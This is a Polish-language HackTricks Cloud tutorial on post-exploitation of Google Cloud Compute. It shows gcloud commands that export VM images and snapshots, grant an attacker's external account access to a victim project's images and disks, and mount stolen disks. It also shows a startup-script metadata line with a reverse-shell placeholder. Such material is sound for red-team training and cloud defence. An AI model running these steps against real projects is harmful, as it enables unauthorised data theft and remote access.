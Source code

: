 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (Networking), sprawdź:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Eksportuj i sprawdź obrazy lokalnie

To pozwoli atakującemu na **dostęp do danych zawartych w już istniejących obrazach** lub **utworzenie nowych obrazów działających VM** i dostęp do ich danych bez dostępu do działającej VM.

Możliwe jest wyeksportowanie obrazu VM do bucketu, a następnie pobranie go i zamontowanie lokalnie za pomocą polecenia:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Aby wykonać tę akcję, atakujący może potrzebować uprawnień do zasobnika pamięci masowej i na pewno **uprawnień do cloudbuild**, ponieważ to jest **usługa**, która zostanie poproszona o wykonanie eksportu.\
Ponadto, aby to zadziałało, SA codebuild i SA compute muszą mieć uprawnienia uprzywilejowane.\
SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` potrzebuje:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` potrzebuje:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Eksportuj i sprawdź migawki i dyski lokalnie

Nie jest możliwe bezpośrednie eksportowanie migawek i dysków, ale możliwe jest **przekształcenie migawki w dysk, dysku w obraz** i zgodnie z **poprzednią sekcją**, wyeksportowanie tego obrazu, aby sprawdzić go lokalnie.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcja obrazu tworząc VM

Celem uzyskania dostępu do **danych przechowywanych w obrazie** lub wewnątrz **działającej VM**, z której atakujący **utworzył obraz,** możliwe jest przyznanie zewnętrznemu kontu dostępu do obrazu:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
a następnie utwórz nową VM z tego:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Jeśli nie mogłeś przyznać dostępu do swojego zewnętrznego konta przez obraz, mógłbyś uruchomić VM używając tego obrazu w projekcie ofiary i **sprawić, by metadane wykonały reverse shell** w celu uzyskania dostępu do obrazu, dodając parametr:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Z celem uzyskania dostępu do **danych przechowywanych na dysku lub w migawce, możesz przekształcić migawkę w dysk, dysk w obraz i postępować zgodnie z wcześniejszymi krokami.**

Lub możesz **przyznać zewnętrznemu kontu dostęp** do dysku (jeśli punktem wyjścia jest migawka, przyznaj dostęp do migawki lub utwórz z niej dysk):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Dołącz dysk** do instancji:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Zamontuj dysk wewnątrz VM:

1.  **SSH do VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Zidentyfikuj dysk**: Po wejściu do VM, zidentyfikuj nowy dysk, wyświetlając urządzenia dyskowe. Zazwyczaj można go znaleźć jako `/dev/sdb`, `/dev/sdc` itp.
3. **Sformatuj i zamontuj dysk** (jeśli to nowy lub surowy dysk):
*   Utwórz punkt montowania:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Zamontuj dysk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Jeśli **nie możesz udzielić dostępu do zewnętrznego projektu** do migawki lub dysku, być może będziesz musiał **wykonać te działania wewnątrz instancji w tym samym projekcie co migawka/dysk**.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
